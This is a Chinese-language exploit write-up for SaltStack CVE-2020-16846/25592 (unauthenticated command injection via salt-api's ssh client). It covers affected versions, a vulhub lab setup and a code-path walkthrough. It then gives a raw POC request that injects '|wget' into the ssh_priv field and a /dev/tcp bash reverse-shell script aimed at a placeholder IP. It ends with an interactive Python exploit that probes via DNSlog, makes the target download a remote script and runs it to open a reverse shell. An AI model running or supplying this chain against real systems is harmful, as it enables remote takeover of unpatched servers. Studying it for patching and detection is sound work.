




# SaltStack 未授权访问命令执行漏洞 CVE-2020-16846 25592

## 漏洞描述

2020年11月4日，SaltStack 官方发布了一则安全更新公告，其中CVE-2020-16846和CVE-2020-25592组合使用可在未授权的情况下通过salt-api接口执行任意命令。CVE-2020-25592允许任意用户调用SSH模块，CVE-2020-16846允许用户执行任意命令。salt-api虽不是默认开启配置，但绝大多数SaltStack用户会选择开启salt-api，故存在较高风险。

参考阅读：

- https://mp.weixin.qq.com/s/R8qw_lWizGyeJS0jOcYXag

## 漏洞影响

```
SaltStack Version 3002
SaltStack Version 3001.1, 3001.2
SaltStack Version 3000.3, 3000.4
SaltStack Version 2019.2.5, 2019.2.6
SaltStack Version 2018.3.5
SaltStack Version 2017.7.4, 2017.7.8
SaltStack Version 2016.11.3, 2016.11.6,2016.11.10
SaltStack Version 2016.3.4, 2016.3.6,2016.3.8
SaltStack Version 2015.8.10, 2015.8.13
```

## 环境搭建

```
git clone https://github.com/vulhub/vulhub.git
cd vulhub/saltstack/CVE-2020-16846
docker-compose up -d
```

## 漏洞复现

salt-api REST接口默认使用cherrypy框架，从run接口的实现上可以看出通过client参数动态调用NetapiClient类中的方法。

文中指定代码位置采用以下约定 **FileLocation:Classname.method()**

**salt/netapi/init.py:NetapiClient.run()**


low参数为外部传入参数，salt.utils.args.format_call方法将参数赋值给**kwargs。**

当client参数为ssh时，动态调用**salt/netapi/init.py:NetapiClient.ssh()**, 该方法未采用任何鉴权。

**salt/netapi/init.py:NetapiClient.ssh()**





跟进，路径如下：

**salt/netapi/init.py:NetapiClient.ssh()⇒salt/client/ssh/client.py:SSHClient.cmd_sync()⇒salt/client/ssh/client.py:SSHClient._prep_ssh()**

**salt/client/ssh/client.py:SSHClient._prep_ssh()**


该方法将kwargs外部可控参数更新值opts变量，该变量可以理解为SaltStack系统的环境变量，使用该变量初始化salt.client.ssh.SSH。

**salt/client/ssh/init.py:SSH.__init__()**



priv的值从opts变量中获取，并调用salt.client.ssh.shell.gen_key()方法。

**salt/client/ssh/shell.py:gen_key()**



POC请求包为

```shell
POST /run HTTP/1.1
Host: 127.0.0.1:8000
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/x-yaml
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 109

token=12312&client=ssh&tgt=*&fun=a&roster=whip1ash&ssh_priv=aaa|wget http://xxx.dnslog.cn
```


反弹shell的方法

先写 bash文件，内容为反弹shell语句，使用wget下载到目标中

```bash
#!/bin/sh
bash -c 'exec bash -i &>/dev/tcp/xxx.xxx.xxx.xxx/9999 <&1'
```


监听端口，使用 **/bin/bash** 运行文件 反弹shell


## 漏洞POC

- POC目录中 peiqi.sh文件 需要更改反弹ip,port,并上传到服务器让目标进行下载
- DNS有响应则代表可能有漏洞，便可以进行反弹shell

```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: SaltStack Version < 2019.2.4 & < 3000.2                   \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+  \033[36mDnslog      >>> xxx.dnslog.cn                                     \033[0m')
    print('+  \033[36mFile_addr   >>> http://xxx.xxx.xxx/cmd.sh                         \033[0m')
    print('+  \033[36mFile_name   >>> cmd.sh                                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url, dnslog):
    vuln_url = target_url + "/run"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Accept-Encoding": "gzip, deflate",
        "DNT": "1",
        "Connection": "close",
        "Upgrade-Insecure-Requests": "1",
        "Content-Type": "application/x-www-form-urlencoded",
        "Accept": "application/x-yaml",
        "Accept-Language": "en-US,en;q=0.5"
    }
    data = "token=12312&client=ssh&tgt=*&fun=a&roster=whip1ash&ssh_priv=peiqi|wget http://{}".format(dnslog)
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=10)
        print("\033[32m[o] 正在执行 wget http://{} \033[0m".format(dnslog))
        if "return" in response.text and response.status_code == 200:
            print("\033[32m[o] 请查看 Dnslog响应 \033[0m")
            while True:
                Chois = input("\033[35m是否反弹 Shell(Y/N) >>> \033[0m")
                if Chois == "Y" or Chois == "y":
                    File_addr = input("\033[35mFile_addr >>> \033[0m")
                    File_name = input("\033[35mFile_name >>> \033[0m")
                    POC_2(target_url, File_addr, File_name)
                else:
                    sys.exit(0)
        else:
            print("\033[31m[x] 请求失败 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

def POC_2(target_url, File_addr, File_name):
    vuln_url = target_url + "/run"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Accept-Encoding": "gzip, deflate",
        "DNT": "1",
        "Connection": "close",
        "Upgrade-Insecure-Requests": "1",
        "Content-Type": "application/x-www-form-urlencoded",
        "Accept": "application/x-yaml",
        "Accept-Language": "en-US,en;q=0.5"
    }
    data = "token=12312&client=ssh&tgt=*&fun=a&roster=whip1ash&ssh_priv=peiqi|wget {}".format(File_addr)
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=10)
        print("\033[32m[o] 正在执行 wget {} \033[0m".format(File_addr))
        if "return" in response.text and response.status_code == 200:
            print("\033[32m[o] 成功下载{} \033[0m".format(File_addr))
            POC_3(target_url, File_name)
        else:
            print("\033[31m[x] 请求失败 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

def POC_3(target_url, File_name):
    vuln_url = target_url + "/run"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Accept-Encoding": "gzip, deflate",
        "DNT": "1",
        "Connection": "close",
        "Upgrade-Insecure-Requests": "1",
        "Content-Type": "application/x-www-form-urlencoded",
        "Accept": "application/x-yaml",
        "Accept-Language": "en-US,en;q=0.5"
    }
    data = "token=12312&client=ssh&tgt=*&fun=a&roster=whip1ash&ssh_priv=peiqi|/bin/bash {}".format(File_name)
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=10)
        print("\033[32m[o] 正在执行 /bin/bash \033[0m".format(File_name))
        if "return" in response.text and response.status_code == 200:
            print("\033[32m[o] 命令执行完毕，请查看是否反弹Shell \033[0m".format(File_name))
            sys.exit(0)
        else:
            print("\033[31m[x] 请求失败 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[32m[o] 命令执行成功 \033[0m")
        sys.exit(0)

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    dnslog = str(input("\033[35mDnslog >>> \033[0m"))
    POC_1(target_url, dnslog)
```





